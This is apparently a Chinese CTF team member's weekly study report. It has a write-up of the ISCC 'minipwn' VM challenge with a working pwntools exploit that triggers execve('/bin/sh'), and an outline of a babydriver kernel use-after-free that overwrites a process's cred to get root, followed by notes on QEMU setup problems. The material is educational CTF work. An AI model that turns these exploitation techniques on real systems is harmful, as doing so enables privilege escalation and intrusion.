




## 完成事项

开始学内核...至少得把题目跑起来吧

## 未完成事项及原因

## 下周待做事项

## 本周学习的知识

###### ISCC-minipwn

vm,程序有提供了若干功能,其中包括了可控参数的syscall

```c
      case 5:
        ++rip_now;
        if ( !(_BYTE)qword_40C0 )
        {
          syscall(REGs.reg0, REGs.reg1, REGs.reg2, REGs.reg3, REGs.reg4);
          rip_now = (_BYTE *)REGs.rip_;
        }
```

qword_40c0只会在这里被设为0:

```c
      case 3:                                   // 保存寄存器状态
        ++rip_now;
        if ( (_BYTE)qword_40C0 )
        {
          v9 = qword_4060;
          LOBYTE(qword_40C0) = 0;
          qword_4060->reg0 = REGs.reg0;
          reg1 = REGs.reg1;
          v9->rip_ = (__int64)rip_now;
          v11 = REGs.rsp_;
          v9->reg1 = reg1;
          reg2 = REGs.reg2;
          v9->rsp_ = v11;
          reg7 = REGs.reg7;
          v9->reg2 = reg2;
          reg3 = REGs.reg3;
          v9->reg7 = reg7;
          p_reg0 = &v9->reg0;
          v9 = (sta *)((char *)v9 + 0xFB8);
          *(_QWORD *)&v9->padding1[0x28] = reg3;
          REGs.reg7 = (__int64)p_reg0;
          rip_now = off_4010;                   // 改变了vm的执行流
          *(_QWORD *)&v9->padding1[32] = REGs.reg4;// v9->reg4
          *(_QWORD *)v9->padding1 = 1LL;        // v9+0xfb8
          *(__m128i *)&REGs.rip_ = _mm_unpacklo_epi64((__m128i)(unsigned __int64)rip_now, (__m128i)(unsigned __int64)v9);
        }
```

```c
      case 4:
        ++rip_now;
        if ( !(_BYTE)qword_40C0 )
        {
          v3 = (__m128d)_mm_loadu_si128((const __m128i *)&qword_4060->rsp_);
          v4 = qword_4060->reg7;
          v5 = qword_4060->padding1[0xFB8] == 0;
          REGs.reg0 = qword_4060->reg0;
          v6 = qword_4060->reg1;
          REGs.reg7 = v4;
          REGs.reg1 = v6;
          v7 = qword_4060->reg2;
          *(__m128d *)&REGs.rip_ = _mm_shuffle_pd(v3, v3, 1);
          REGs.reg2 = v7;
          v8 = qword_4060->reg3;
          LOBYTE(qword_40C0) = !v5;
          REGs.reg3 = v8;
          REGs.reg4 = qword_4060->reg4;
          rip_now = (_BYTE *)qword_4060->rip_;
        }
```

然后程序就会按照执行一次read-执行case4的顺序进行操作.

```assembly
.rodata:00000000000020B4 unk_20B4        db    6                 ; DATA XREF: .data:off_4010↓o
.rodata:00000000000020B5                 db    0 ;rax=0
.rodata:00000000000020B6                 db    6
.rodata:00000000000020B7                 db    1 ;rdi=0
.rodata:00000000000020B8                 db    5
.rodata:00000000000020B9                 db    4
.rodata:00000000000020BA                 db    0
```

但我们注意到,qword4060在case4中的设置方式不是直接设为1,而是:

```c
v5 = qword_4060->padding1[0xFB8] == 0;
LOBYTE(qword_40C0) = !v5;
```

因此,我们可以提前将buf设为`qword_4060->padding1[0xFB8]`,然后将它覆盖为0,就能获得执行case5的机会.

```python
from pwn import *

r=process("./pwn")
gdb.attach(r)
pause()
#0xff0
pay1=b"\x01\x00\x01\x03"+b"\x02\x06\x01\x01\x02\x06\x01\x02"+b"\x07\x01"+b"\x07\x02"*(0x1FF+0x1F7)+b"\x03\x06\x03\x05"
pay1=pay1.ljust(0x1000,b"\x00")
stack=p64(59)+p64(8)+b"/bin/sh\x00"
stack=stack.ljust(0x1000,b"\x00")

r.send(stack)

r.send(pay1)

r.send(b"\x00"*8)
r.interactive()

#将reg2设为v9+0xfb8，reg3设为0x8,然后触发6061540
#case4:14cf
#case5:1478
```

###### 内核初探?

在团队周报里翻翻找找,找到了一篇博客:

https://hyperionsec.yuque.com/hyxggh/tuax6d/cwluma14gksmrt7r

https://sky123.blog.csdn.net/article/details/130815994

于是找到了这篇博客里出现过的那道题,准备跟着博客和这位师傅的周报的思路学一下内核.

首先,题目给了三个文件:

- `boot.sh`：启动脚本
- `bzImage`：镜像
- `rootfs.cpio`：文件系统

boot.sh的内容是这样的:

```shell
#!/bin/bash

qemu-system-x86_64 \
 -initrd rootfs.cpio \ #加载rootfs.cpio作为文件系统
-kernel bzImage \ #指定镜像
-append 'console=ttyS0 root=/dev/ram oops=panic panic=1' \ #将内核日志输出到串行终端,将 /dev/ram 作为根文件系统,如果内核出现 Oops（严重错误），直接触发 kernel panic
#另外,可以在这添加nokaslr 关闭随机偏移 , pti=on/off 开启/关闭 KPTI(内核页表隔离)
-enable-kvm \ #启用Kernel-based Virtual Machine(ai说是用来提升性能的)
-monitor /dev/null \ #重定向QEMU控制台,这里相当于禁用 QEMU交互界面
-m 64M \ #内存大小
--nographic  \ #无图形界面,与console=ttyS0一起使用可以使输出处于当前终端
-smp cores=1,threads=1 \ #指定核数,线程数
-cpu kvm64,+smep #指定cpu,以及一些保护
#如:
#+smap，开启 smap 保护 禁止内核访问用户空间数据
#+smep，开启 smep 保护 禁止内核执行用户空间代码
```

rootfs.cpio可以通过cpio命令解压为通常的文件,不过这题不行(似乎是因为这个文件实际上不是cpio...不太清楚)可以直接右键-提取到此处解压.

解压后首先可以看init,里面会有一些和题目有关的信息:

```shell
#!/bin/sh
mount -t proc none /proc
# 挂载 `proc` 文件系统, 用于进程管理信息
mount -t sysfs none /sys
# 挂载 `sysfs` 文件系统, 允许访问系统硬件信息
mount -t devtmpfs devtmpfs /dev
# 挂载 `devtmpfs`, 使设备节点自动创建
chown root:root flag
# 更改 `flag` 文件的所有者为 root
chmod 400 flag
# 仅允许 root 读取 `flag` 文件, 禁止写入和执行
exec 0</dev/console
exec 1>/dev/console
exec 2>/dev/console
# 重定向标准输入 (`stdin`)、标准输出 (`stdout`)、标准错误 (`stderr`) 到 `/dev/console`
insmod /lib/modules/4.4.72/babydriver.ko
# 加载 `babydriver.ko` 内核模块
chmod 777 /dev/babydev
# 允许所有用户对 `/dev/babydev` 设备进行读写和执行操作
echo -e "\nBoot took $(cut -d' ' -f1 /proc/uptime) seconds\n"
# 计算系统启动时间, 从 `/proc/uptime` 读取第一个字段 (秒数) 并显示
setsid cttyhack setuidgid 1000 sh
# 以 UID 1000 (`非 root`) 的身份运行 `sh` 进程, 使用 `cttyhack` 确保分配控制终端
#(在sh停止运行后)
umount /proc
umount /sys
# 取消挂载 `proc` 和 `sys` 文件系统, 释放资源
poweroff -d 0  -f
# 强制关闭系统, `-d 0` 禁止记录日志, `-f` 直接执行关机
```

根据init,我们大概就可以知道需要分析的文件是`/lib/modules/4.4.72/babydriver.ko`

由于内核模块也是一种ELF文件,所以我们可以直接用IDA分析它.



并且发现了uaf



按照我找到的wp的说法,可以利用这个uaf修改利用这片空间新创建的进程的cred.由于内核堆对于chunk的管理和ptmalloc相似,都是以栈(后进先出)的形式管理被释放的chunk.所以我们只要能创建一个和fork()时创建的0xa8的chunk大小相同的chunk,就能使它被fork()重利用.

正好,题目中就有一个释放当前堆块,并创建一个任意大小的新堆块的函数:



那么我们的思路(好吧,wp的思路)就是:

1. 用open功能获取两个指向全局上的babydev_struct.device_buf的指针
2. 用ioctl功能将babydev_struct.device_buf指针指向的chunk的大小改为0xa8
3. free掉这个chunk,然后通过chunk创建一个新的进程
4. 通过uaf修改这个新进程的cred(额...这又是什么)
5. 在新进程内执行system("/bin/sh"),获取有root的交互式shell.

那么由于我只是想大概了解一下内核题的流程(以及测试一下环境),这里就直接抄wp了.

测试了一下,没什么问题,不过没找到好用的远程传输脚本,这里是直接打包进去进行的测试...



###### qemu跑不起来,以及排障

额...由于某些我也不知道的原因,之前写的那堆东西会在重启后再次失效...所以我先把它们删了,等我搞明白再说.

总之重启了电脑以后,qemu又跑不了了...目前确定的原因是windows基于虚拟化的安全性的锅,这玩意怎么都关不掉

## 本周自己学习过程中遇到的问题和疑问点

## 情感、思考、观点

可恶的windows11

## 在团队的感触和建议
